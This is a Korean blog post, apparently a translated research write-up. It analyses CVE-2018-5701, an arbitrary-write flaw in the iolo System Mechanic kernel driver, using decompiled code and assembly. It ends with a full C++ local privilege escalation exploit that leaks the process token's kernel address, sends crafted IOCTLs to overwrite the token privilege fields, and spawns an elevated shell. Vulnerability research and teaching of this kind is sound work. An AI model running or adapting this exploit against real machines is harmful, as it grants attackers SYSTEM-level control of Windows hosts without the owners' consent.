

> Part 1 보러가기 : [Exploiting System Mechanic Driver Part 1](https://hackyboiz.github.io/2021/04/21/l0ch/exploiting-driver/)

> 원문 글 : [Exploiting System Mechanic Driver](https://labs.yarix.com/2021/04/exploiting-system-mechanic-driver/)

# Root Cause Analysis

## Analyzing SUB_2C580 (Dispatch Routine)

`DeviceIoControl` API가 장치에서 호출될 때의 디스패치 루틴은 `SUB_2C580` 함수이다. IDA Pro의 디컴파일러를 사용하면 이 함수가 2개의 인수를 받는 것을 볼 수 있다. 

1. `DeviceObject`에 대한 포인터 - `a1`
2. 장치에 전달 된 IRP 구조체에 대한 포인터 - `a2`

함수는 `DeviceIoControl`이 보낸 IRP 포인터에서 메모리 버퍼를 포함하는 구조체인  [_IO_STACK_LOCATION](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/ns-wdm-_io_stack_location)를 추출하고 지역 변수 v5에 저장한다.



버퍼에 포함된 IOCTL(`Parameters.Read.ByteOffset.LowPart` 멤버)과 드라이버 코드의 하드 코딩된 값(`2252803` decimal, `0x226003` hex)을 비교하는 것을 볼 수 있다.


비교 후 같으면 IOCTL 코드 `0x226003`와 관련된 함수인 `SUB_166D0` 를 호출한다. `SUB_166D0`함수를 분석하기 전 함수에 전달되는 세 가지 인수 `v3`, `v7` 및 `v4`에 대해 설명해야 한다.

- `v3` : [IoIs32BitProcess](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-iois32bitprocess) 함수의 반환 값이며 호출 프로세스가 32비트(TRUE)인지 64비트(FALSE)인지 알려준다.
- `v7` : 실제 유저 버퍼에 대한 포인터이며, 이 경우 user-space의 주소를 가리킨다. 이 주소는 `DeviceIoControl` API에 인수로 전달된 주소이다.
- `v4` : 버퍼의 크기

## Analyzing SUB_166D0

이 함수는 이전 함수들보다 복잡하기 때문에 다양한 반환 값을 분석해 코드 흐름과 제약 조건을 이해하는 것으로 시작했다. 각각 상태 코드가 있는 5개의 return 문이 있다. 이를 16진수로 변환하고 나열하면 다음과 같다.

1. `return 0xC0000023 == STATUS_BUFFER_TOO_SMALL`
2. `return 0xC0000023 == STATUS_BUFFER_TOO_SMALL`
3. `return 0xC0000001 == STATUS_UNSUCCESSFUL`
4. `return 0xC000000D == STATUS_INVALID_PARAMETER`
5. `return 0x0 == STATUS_SUCCESS`

각각 MSDN에서 찾아보고 그 의미를 기록해 각 상태 코드가 무엇을 의미하는지 알았으므로 각 코드 블록이 무엇을 하는지 추측할 수 있다. 

첫 번째 `STATUS_BUFFER_TOO_SMALL` : 앞서 말했듯이 `a1`은 호출자가 함수에 전달한 첫 번째 매개변수이며 `IoIs32BitProcess`의 반환 값이고 `a3`은 버퍼 크기이다. 따라서 호출 프로세스가 32비트인 경우 버퍼 크기는 `0xC` 이상이어야 한다는 것을 알 수 있다.


64비트 프로세스인 경우 `0x18` 이상이어야 한다. 두 경우 모두 버퍼 크기 검사를 통과하면 `LABEL_6`으로 이동한다. 64비트의 경우 입력 구조체를 8bytes 길이의 3개로 나누어 더 많은 로컬 변수가 생성된다.


```cpp
v8 = *(_QWORD *)a2;
v9 = *((_QWORD *)a2 + 1);
v10 = *((_QWORD *)a2 + 2);
```

위에서 디컴파일된 코드를 살펴보면 입력 버퍼가 3개의 서로 다른 8bytes 필드로 구성된 일종의 24bytes 길이 구조체일 것으로 추측했다. `v8`, `v9` 및 `v10`이 증가 오프셋을 사용해 입력 버퍼 주소에 액세스하고 해당 포인터를 역참조해 상대 값을 검색하는 것을 볼 수 있다.


참고 : 이는 약간의 포인터 연산으로 수행되어 다음과 같이 25, 26, 27 행을 해석할 수 있다.

- 25행 : `a2`를 64비트 값 `(_QWORD *)`에 대한 포인터로 취급하고 해당 포인터를 역참조한다.
- 26행 : 위와 동일하지만 `a2`를 64비트 값 포인터로 캐스팅한 후 `+1`이 추가된다. 이는 QWORD이므로 다음 8bytes 값을 의미한다.
- 27행 : 위의 행과 동일하지만 `+2`로 세 번째 QWORD로 건너뛰므로 `a2` 다음 16bytes 값을 의미한다.

다음 코드는 `LABEL_6`으로 시작한다.


`qword_38B28`은 런타임에 32비트 값 `0x00000009`의 주소이다. WinDbg를 사용하여 이 함수에 breakpoint를 설정하고 이전에 찾은 IOCTL 코드로 `DeviceIoControl` API를 호출하여 확인했다. 임의의 IOCTL 요청을 보낼 수 있도록 오픈소스 소프트웨어인 [IOCTLpus](https://github.com/VoidSec/ioctlpus)를 활용했다. IOCTLpus는 Jackson Thuraisamy에서 만들었지만 현재 VoidSec에서 포크 중 하나를 적극적으로 관리하고 있다. 임의의 입력으로 `DeviceIoControl` 요청을 수행하는 데 사용할 수 있는 툴이다.(Burp Repeater와 유사한 기능을 포함)


IOCTLpus를 사용하여 임의의 `DeviceIoControl` 요청을 수행하고 `UserBuffer`의 값을 변경하면서 취약점이 널 포인터 역 참조가 아님을 발견했다. ioctlbf 퍼저가 모든 버퍼의 값을 0으로 설정해버려 임의 쓰기가 아닌 널 포인터 역 참조처럼 보인 것이다. 

> Protip : WinDbg를 디버기에 연결 한 직후 `lm vm amp` 으로 드라이버의 base address를 가져온다. 그 뒤 IDA->Edit->Segments->Rebase 로 현재 파일의 base address를 설정하면 디컴파일된 코드와 WinDbg에서 일관성이 있도록 분석할 수 있다.

34 행에서 `qword_38B28`이 가리키는 DWORD (32 비트 값)를 `v4`와 비교하는 것을 볼 수 있다. 이 변수는 `v8`에 포함된 값으로 초기화되며, 이는 입력 구조체의 첫 번째 필드 값이다. 따라서 입력 버퍼의 처음 4bytes에 `qword_38B28 (0x00000009)`보다 크거나 같은 값이 포함되어 있으면 검사가 실패하고 `STATUS_INVALID_PARAMETER`를 반환한다. 검사가 성공하면 입력 구조체의 첫 번째 필드 값이 switch case와 같은 코드에 대한 인덱스로 사용된다.

```cpp
v8 = *(_QWORD *)(qword_38B28 + 16i64 * v4 + 8);
-> v8 = *(_QWORD *)(9 + 16 * field1_user_buffer + 8);
```

switch case 인덱스인 이유는 다음 섹션에서 v8의 주소를 매개변수로 사용하는 `SUB_16C40` 함수를 분석하면서 확인할 수 있다.

`SUB_166D0` 의 전체 코드는 다음과 같다.

```cpp
__int64 __fastcall DriverVulnerableFunction(bool BoolIs32BitProcess, unsigned int *userBuffer, unsigned int bufferSize)
{
  unsigned int field1_32; // eax
  __int64 field2_32; // r8
  __int64 field3_32_ptr; // rbx
  __int64 field1_64; // [rsp+20h] [rbp-28h] BYREF
  __int64 field2_64; // [rsp+28h] [rbp-20h]
  __int64 field3_64_ptr; // [rsp+30h] [rbp-18h]
  __int64 *v11; // [rsp+38h] [rbp-10h]
  __int64 v12; // [rsp+68h] [rbp+20h] BYREF
  if ( BoolIs32BitProcess )
  {                                             // 32 bit Process
    if ( bufferSize >= 12 )
    {                                           // Struct contaning 3 32-bits fields
      field1_32 = *userBuffer;                  // (int)userBuffer[0];
      field2_32 = (int)userBuffer[1];
      field3_32_ptr = (int)userBuffer[2];
      goto LABEL_6;
    }
    return 0xC0000023i64;                       // STATUS_BUFFER_TOO_SMALL
  }
  if ( bufferSize < 24 )                        // 64 bit Process
    return 0xC0000023i64;                       // STATUS_BUFFER_TOO_SMALL
  field1_64 = *(_QWORD *)userBuffer;            // Struct contaning 3 64-bits fields
  field2_64 = *((_QWORD *)userBuffer + 1);
  field3_64_ptr = *((_QWORD *)userBuffer + 2);
  field3_32_ptr = field3_64_ptr;
  field2_32 = field2_64;
  field1_32 = field1_64;
LABEL_6:
  if ( !qword_FFFFF80068928B28 )
    return 0xC0000001i64;                       // STATUS_UNSUCCESSFUL
  if ( field1_32 >= *(_DWORD *)qword_FFFFF80068928B28 )// MUST BE < 9
    return 0xC000000Di64;                       // STATUS_INVALID_PARAMETER
  field2_64 = field2_32;
  field1_64 = *(_QWORD *)(qword_FFFFF80068928B28 + 16i64 * field1_32 + 8);// jmp table (0-8)
  LODWORD(field3_64_ptr) = *(_DWORD *)(qword_FFFFF80068928B28 + 16i64 * field1_32 + 16);// set lower 32 bits of fields3_64
  v11 = &v12;
  jmptable(&field1_64);                         // addr jmp table based
  if ( BoolIs32BitProcess )
    *(_DWORD *)field3_32_ptr = v12;
  else
    *(_QWORD *)field3_32_ptr = v12;
  return 0i64;                                  // SUCCESS
}
```

## Analyzing SUB_16C40

이 함수는 디컴파일 코드가 그다지 도움이 되지 않았고 해석에 오해의 소지가 있어 골칫거리였다. 

```cpp
void __fastcall sub_16C40(__int64 a1)
{
  unsigned __int64 v2; // rcx
  __int64 v3; // rax
  void *v4; // rsp
  char vars20; // [rsp+20h] [rbp+20h] BYREF
  v2 = *(unsigned int *)(a1 + 16);
  v3 = v2;
  if ( v2 < 0x20 )
  {
    v2 = 40i64;
    v3 = 32i64;
  }
  v4 = alloca(v2);
  if ( v3 - 32 > 0 )
    qmemcpy(&vars20, (const void *)(*(_QWORD *)(a1 + 8) + 32i64), v3 - 32);
  **(_QWORD **)(a1 + 24) = (*(__int64 (__fastcall **)(_QWORD, _QWORD, _QWORD, _QWORD))a1)(
                             **(_QWORD **)(a1 + 8),
                             *(_QWORD *)(*(_QWORD *)(a1 + 8) + 8i64),
                             *(_QWORD *)(*(_QWORD *)(a1 + 8) + 16i64),
                             *(_QWORD *)(*(_QWORD *)(a1 + 8) + 24i64));
}
```

위의 코드에서는 유저가 제어할 수 있는 위치에 `userBuffer`의 값을 복사할 때 가능한 임의 쓰기 취약점이 트리거 될 수 있으므로 `qmemcpy`가 적합한 함수라고 생각했으며 `memcpy(* destination, * source, size_t);`를 완전히 제어할 수 있을  것으로 추측했다. 그러나 때로는 나무에 집중해 숲을 보지 못하게 된다. 많은 시간을 보낸 후 Access violation을 일으키는 명령이 memcpy 자체가 아닌 memcpy 이후에 발생하는 다른 명령과 관련이 있다는 것을 발견했다. 이전 섹션에서 생각해 보면 `amp+6c8d`에서 액세스 위반이 발생했다. 디컴파일 된 의사 코드가 아닌 원시 어셈블리를 살펴보면 더 쉬워진다.

```cpp
.text:0000000000016C6A                 sub     rsp, rcx
.text:0000000000016C6D                 and     rsp, 0FFFFFFFFFFFFFFF0h
.text:0000000000016C71                 lea     rcx, [rax-20h]
.text:0000000000016C75                 test    rcx, rcx
.text:0000000000016C78                 jle     short loc_16C89
.text:0000000000016C7A                 mov     rsi, [rbx+8]
.text:0000000000016C7E                 lea     rsi, [rsi+20h]
.text:0000000000016C82                 lea     rdi, [rsp+var_s20]
.text:0000000000016C87                 rep movsb
.text:0000000000016C89
.text:0000000000016C89 loc_16C89:                              ; CODE XREF: sub_16C40+38↑j
.text:0000000000016C89                 mov     rsi, [rbx+8]
.text:0000000000016C8D                 mov     rcx, [rsi]
.text:0000000000016C90                 mov     rdx, [rsi+8]
.text:0000000000016C94                 mov     r8, [rsi+10h]
.text:0000000000016C98                 mov     r9, [rsi+18h]
.text:0000000000016C9C                 call    qword ptr [rbx]
```

`16C8D`, `mov rcx, [rsi]`에서 액세스 위반이 발생하지만 해당 명령 바로 앞을 보면 `memcpy`에 대한 호출은 찾을 수 없었다. 이를 밝히기 위해 좀 더 파헤쳤고 Reverse Engineering Discord Server의 멤버가 IDA가 디컴파일에서  `qmempy`로 나타내는 이유는 `rsi`에서 `rdi`로 `rcx` bytes 만큼 복사할 때 사용하는 `rep movsb` 의 `movsb`때문임을 설명했다. 어쨌든 `mov rcx, [rsi]` 명령어를 살펴보고 `rsi` 할당과 사용을 역추적하면 그 값이 `rcx`레지스터에서 나온다는 것을 확인했다.

```cpp
.text:0000000000016C47                 mov     rbx, rcx
...
.text:0000000000016C89                 mov     rsi, [rbx+8]
.text:0000000000016C8D                 mov     rcx, [rsi]
```

RCX 레지스터(x86_64 fastcall convention)는 함수 인수(`RCX`, `RDX`, `R8`, `R9`, 나머지 인수는 스택에 전달됨)를 전달하는 데 사용된다. `SUB_16C40`은 `SUB_166D0`에서 하나의 인수 `SUB_166D0의 v8` 만 받으므로 RCX에는 `field1`에서 가져온 해당 인수의 주소가 포함된다. 이제 전체 유저 버퍼를 ioctlbf 퍼저가 0으로 설정해 액세스 위반이 발생했음을 알 수 있다. 이 경우 첫 번째 유저 버퍼는 `v8`의 값 `v8 = *(_QWORD*)(9+16*field1_user_buffer + 8);`을 계산하는 데 사용되며 `mov rcx, [rsi]` 명령이 실행될 때 `rsi`는 역참조 할 유효하지 않은 메모리 위치에 대한 포인터가 된다. 어셈블리를 다시 살펴보면 `rcx`, `rdx`, `r8` 및 `r9` 레지스터를 채우는 다른 fastcall 호출을 하는 것을 볼 수 있다.

```cpp
.text:0000000000016C8D                 mov     rcx, [rsi]
.text:0000000000016C90                 mov     rdx, [rsi+8]
.text:0000000000016C94                 mov     r8, [rsi+10h]
.text:0000000000016C98                 mov     r9, [rsi+18h]
.text:0000000000016C9C                 call    qword ptr [rbx]
```

여기서 흥미로운 점이 나타나는데, `16C47 mov rbx, rcx` 이후 `rbx`가 유효한 메모리면 call opcode에 의해 호출되는 것을 확인할 수 있다. 이때  `RBX`의 값은 런타임에서 계산되기 때문에 IDA의 디컴파일 기능은 위 명령어의 결과를 따라갈 수 없다. `v8`은 `sub_166D0`에서 볼 수 있듯이 0~8까지의 값을 가지며 호출할 함수 index로 활용되며 `v8`의 값에 따라 각각 호출되는 함수들은 다음과 같다.

1. `sub_2CBA0`
2. `sub_2CB20`
3. `sub_2C960`
4. `sub_2C850`
5. `sub_2C7F0`
6. `sub_18D20`
7. `sub_2C510`
8. `sub_2C360`
9. **`sub_2C460` <<**

## Analyzing sub_2C460

위 함수들 중 제한된 arbitrary write가 가능하다는 점에서 익스플로잇에 사용할 함수로는 `sub_2C460`가 가장 유력했다.

```c
__int64 __fastcall jmp8(_DWORD *a1)
{
  unsigned int v2; // [rsp+20h] [rbp-38h]
  v2 = 0;
  if ( !a1 )  // must be === 0
    return 0xFFFFFFFE;
  sub_FFFFF800689067D0((__int64)a1, 0x2Cui64);
  if ( *a1 != 44i64 )
    return 4;
  qmemcpy(a1, &unk_FFFFF80068926BA8, 0x2Cui64);
  return v2;
}
```

`sub_2C460` 은 권한상승 익스플로잇에 거의 완벽한 `0xFFFFFFFE`를 반환한다.

# Constraint&Analysis Recap

지금까지 분석한 내용은 다음과 같다.

- 취약한 드라이버에 보낼 수 있는 제어 가능한 유저 버퍼가 3개의 8bytes 필드로 구성된 24bytes 크기의 구조체이다.
- 첫 번째 필드는 항상 9보다 작은 정수이며 해당 값에 따라 호출되는 함수 중 `sub_2C460`에 도달하기 위해서는 8이어야 한다. (`sub_2C460` 참고)
- 두 번째 필드는 역참조 될 때 0을 가리키는 주소에 대한 유효한 포인터여야 한다. (`sub_2C460` 참고)

세 번째 필드에는 `sub_2C460`의 반환값(`0xFFFFFFFE`)에 의해 기록될 주소가 포함되어야 한다.

# Abusing Token Privileges for LPE

성공적인 권한 상승을 위해 다음과 같은 기술을 사용할 수 있다.

1. SYSTEM의 토큰을 탈취해 프로세스를 대체하는 데 사용한다.
2. 프로세스의 토큰 값을 유지하는 커널 구조체를 overwrite한다.

arbitrary write가 가능하므로 두 번째 경우를 고려해본다. Windows는 토큰 객체를 사용해 특정 스레드/프로세스의 보안 컨텍스트를 관리한다.(토큰 객체는 `nt!_TOKEN` 구조체로 표현됨) 시스템의 각 프로세스는 object access negotiations 혹은 권한 있는 시스템 작업 중에 사용되는 `EPROCESS` 구조체에 토큰 객체 참조가 있다. 이중 `_TOKEN*+ 0x40*`의 `_SEP_TOKEN_PRIVILEGES`가 권한 상승과 관련된 필드이다.

```c
kd> dt nt!_SEP_TOKEN_PRIVILEGES c5d39c30+40 
  +0x000 Present          : 0x00000006`02880000 
  +0x008 Enabled          : 0x800000
  +0x010 EnabledByDefault : 0x800000
```

`Present` : 토큰에 대한 현재 권한

`Enable` : 토큰에 대해 활성화된 모든 권한. `SeSinglePrivilegeCheck`를 전달하려면 이 비트 마스크에서 권한을 활성화해야 한다.

`EnableByDefault` : 토큰의 초기 상태

`Present` 및 `Enabled` 항목을 `0xFFFFFFFF` 값으로 overwrite 하면 비트 마스크의 모든 비트와 권한을 활성화할 수 있다. 따라서 `0xFFFFFFFE` 를 쓰는 것이 우리에게 필요한 전부이다.

# Exploitation

exploit은 다음 단계를 수행한다.

1. 현재 프로세스의 토큰을 연다. - 나중에 커널 주소를 찾을 때 사용된다.
2. `NtQuerySystemInformation` API로 핸들이 있는 모든 객체의 커널 주소를 leak 한다.
3. 현재 프로세스에서 토큰 핸들을 찾고 [kASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization#Microsoft_Windows)을 우회해 커널 주소를 가져온다.
4. `0xFFFFFFFE`을 반환하는 취약한 드라이버에 대한 IOCTL 요청 코드를 작성하고 `Present` 필드를 가리키도록 출력 버퍼 주소를 설정한다.
5. 같은 방법으로 `Enabled` 및 `EnabledByDefault` 필드를 `0xFFFFFFFE`로 overwrite 한다. 
6. 위에서 부여한 토큰 권한을 상속하는 자식 프로세스를 생성한다.

항상 그랬듯이 주석이 달린 C++ exploit code는 여기 또는 [Github](https://github.com/VoidSec/Exploit-Development/blob/master/windows/x64/kernel/iolo_System_Mechanic_Pro_v.15.5.0.61/iolo_System_Mechanic_Pro_v.15.5.0.61.cpp) 페이지에서 찾을 수 있다.

```cpp
/*
Exploit title:      iolo System Mechanic Pro v. <= 15.5.0.61 - Arbitrary Write Local Privilege Escalation (LPE)
Exploit Authors:    Federico Lagrasta aka last - https://blog.notso.pro/
                    Paolo Stagno aka VoidSec - voidsec@voidsec.com - https://voidsec.com
CVE:                CVE-2018-5701
Date:               28/03/2021
Vendor Homepage:    https://www.iolo.com/
Download:           https://www.iolo.com/products/system-mechanic-ultimate-defense/
                    https://mega.nz/file/xJgz0QYA#zy0ynELGQG8L_VAFKQeTOK3b6hp4dka7QWKWal9Lo6E
Version:            v.15.5.0.61
Tested on:          Windows 10 Pro x64 v.1903 Build 18362.30
Category:           local exploit
Platform:           windows
*/

#include <iostream>
#include <windows.h>
#include <winternl.h>
#include <tlhelp32.h>
#include <algorithm>

#define IOCTL_CODE 0x226003 // IOCTL_CODE value, used to reach the vulnerable function (taken from IDA)
#define SystemHandleInformation 0x10
#define SystemHandleInformationSize 1024 * 1024 * 2

// define the buffer structure which will be sent to the vulnerable driver
typedef struct Exploit
{
    uint32_t Field1_1;  // must be 0x8 as this index will be used to calculate the address in a jump table and trigger the vulnerable function
    uint32_t Field1_2;  // "padding" can be anything
    int *Field2;        // must be a pointer that, once dereferenced, cotains 0
    void *Field3;       // points to the adrress that will be overwritten by 0xfffffffe - Arbitrary Write
};

// define a pointer to the native function 'NtQuerySystemInformation'
using pNtQuerySystemInformation = NTSTATUS(WINAPI *)(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength);

// define the SYSTEM_HANDLE_TABLE_ENTRY_INFO structure
typedef struct _SYSTEM_HANDLE_TABLE_ENTRY_INFO
{
    USHORT UniqueProcessId;
    USHORT CreatorBackTraceIndex;
    UCHAR ObjectTypeIndex;
    UCHAR HandleAttributes;
    USHORT HandleValue;
    PVOID Object;
    ULONG GrantedAccess;
} SYSTEM_HANDLE_TABLE_ENTRY_INFO, *PSYSTEM_HANDLE_TABLE_ENTRY_INFO;

// define the SYSTEM_HANDLE_INFORMATION structure
typedef struct _SYSTEM_HANDLE_INFORMATION
{
    ULONG NumberOfHandles;
    SYSTEM_HANDLE_TABLE_ENTRY_INFO Handles[1];
} SYSTEM_HANDLE_INFORMATION, *PSYSTEM_HANDLE_INFORMATION;

int main(int argc, char **argv)
{

    // open a handle to the device exposed by the driver - symlink is \\.\amp
    HANDLE device = ::CreateFileW(
        L"\\\\.\\amp",
        GENERIC_WRITE | GENERIC_READ,
        NULL,
        nullptr,
        OPEN_EXISTING,
        NULL,
        NULL);
    if (device == INVALID_HANDLE_VALUE)
    {
        std::cout << "[!] Couldn't open handle to the System Mechanic driver. Error code: " << ::GetLastError() << std::endl;
        return -1;
    }
    std::cout << "[+] Opened a handle to the System Mechanic driver!\n";

    // resolve the address of NtQuerySystemInformation and assign it to a function pointer
    pNtQuerySystemInformation NtQuerySystemInformation = (pNtQuerySystemInformation)::GetProcAddress(::LoadLibraryW(L"ntdll"), "NtQuerySystemInformation");
    if (!NtQuerySystemInformation)
    {
        std::cout << "[!] Couldn't resolve NtQuerySystemInformation API. Error code: " << ::GetLastError() << std::endl;
        return -1;
    }
    std::cout << "[+] Resolved NtQuerySystemInformation!\n";

    // open the current process token - it will be used to retrieve its kernelspace address later
    HANDLE currentProcess = ::GetCurrentProcess();
    HANDLE currentToken = NULL;
    bool success = ::OpenProcessToken(currentProcess, TOKEN_ALL_ACCESS, &currentToken);
    if (!success)
    {
        std::cout << "[!] Couldn't open handle to the current process token. Error code: " << ::GetLastError() << std::endl;
        return -1;
    }
    std::cout << "[+] Opened a handle to the current process token!\n";

    // allocate space in the heap for the handle table information which will be filled by the call to 'NtQuerySystemInformation' API
    PSYSTEM_HANDLE_INFORMATION handleTableInformation = (PSYSTEM_HANDLE_INFORMATION)HeapAlloc(::GetProcessHeap(), HEAP_ZERO_MEMORY, SystemHandleInformationSize);

    // call NtQuerySystemInformation and fill the handleTableInformation structure
    ULONG returnLength = 0;
    NtQuerySystemInformation(SystemHandleInformation, handleTableInformation, SystemHandleInformationSize, &returnLength);

    uint64_t tokenAddress = 0;
    // iterate over the system's handle table and look for the handles beloging to our process
    for (int i = 0; i < handleTableInformation->NumberOfHandles; i++)
    {
        SYSTEM_HANDLE_TABLE_ENTRY_INFO handleInfo = (SYSTEM_HANDLE_TABLE_ENTRY_INFO)handleTableInformation->Handles[i];
        // if it finds our process and the handle matches the current token handle we already opened, print it
        if (handleInfo.UniqueProcessId == ::GetCurrentProcessId() && handleInfo.HandleValue == (USHORT)currentToken)
        {
            tokenAddress = (uint64_t)handleInfo.Object;
            std::cout << "[+] Current token address in kernelspace is: 0x" << std::hex << tokenAddress << std::endl;
        }
    }

    // allocate a variable set to 0
    int field2 = 0;

    /*
    dt nt!_SEP_TOKEN_PRIVILEGES
       +0x000 Present          : Uint8B
       +0x008 Enabled          : Uint8B
       +0x010 EnabledByDefault : Uint8B

    We've added +1 to the offsets to ensure that the low bytes part are 0xff.
    */

    // overwrite the _SEP_TOKEN_PRIVILEGES  "Present" field in the current process token
    Exploit exploit =
        {
            8,
            0,
            &field2,
            (void *)(tokenAddress + 0x41)};

    // overwrite the _SEP_TOKEN_PRIVILEGES  "Enabled" field in the current process token
    Exploit exploit2 =
        {
            8,
            0,
            &field2,
            (void *)(tokenAddress + 0x49)};

    // overwrite the _SEP_TOKEN_PRIVILEGES  "EnabledByDefault" field in the current process token
    Exploit exploit3 =
        {
            8,
            0,
            &field2,
            (void *)(tokenAddress + 0x51)};

    DWORD bytesReturned = 0;
    success = DeviceIoControl(
        device,
        IOCTL_CODE,
        &exploit,
        sizeof(exploit),
        nullptr,
        0,
        &bytesReturned,
        nullptr);
    if (!success)
    {
        std::cout << "[!] Couldn't overwrite current token 'Present' field. Error code: " << ::GetLastError() << std::endl;
        return -1;
    }
    std::cout << "[+] Successfully overwritten current token 'Present' field!\n";

    success = DeviceIoControl(
        device,
        IOCTL_CODE,
        &exploit2,
        sizeof(exploit2),
        nullptr,
        0,
        &bytesReturned,
        nullptr);
    if (!success)
    {
        std::cout << "[!] Couldn't overwrite current token 'Enabled' field. Error code: " << ::GetLastError() << std::endl;
        return -1;
    }
    std::cout << "[+] Successfully overwritten current token 'Enabled' field!\n";

    success = DeviceIoControl(
        device,
        IOCTL_CODE,
        &exploit3,
        sizeof(exploit3),
        nullptr,
        0,
        &bytesReturned,
        nullptr);
    if (!success)
    {
        std::cout << "[!] Couldn't overwrite current token 'EnabledByDefault' field. Error code:" << ::GetLastError() << std::endl;
        return -1;
    }
    std::cout << "[+] Successfully overwritten current token 'EnabledByDefault' field!\n";
    std::cout << "[+] Token privileges successfully overwritten!\n";
    std::cout << "[+] Spawning a new shell with full privileges!\n";

    system("cmd.exe");

    return 0;
}
/*
    |\__/,|   (`\
  _.|o o  |_   ) )
-(((---(((--------
*/
```

# Video PoC

[https://www.youtube.com/watch?v=IIARwtJEhxs&feature=emb_title](https://www.youtube.com/watch?v=IIARwtJEhxs&feature=emb_title)

# Upcoming Article

일부 공급 업체의 제약으로 인해 약간 연기해야 했으며 다음 블로그 게시물에서는 인기있는 애플리케이션에서 임의 파일 쓰기에서 권한 상승 (EoP)으로 넘어가도록 한 일련의 버그를 공개 할 예정이다.

# Resources & References

- [Driver Attack Surface](https://www.youtube.com/watch?v=qk-OI8Z-1To)
- [Windows DriverFrameworks](https://github.com/Microsoft/Windows-Driver-Frameworks)
- [Abusing Token Privileges for LPE](https://www.exploit-db.com/exploits/42556)
- [@HackSysTeam](https://twitter.com/HackSysTeam)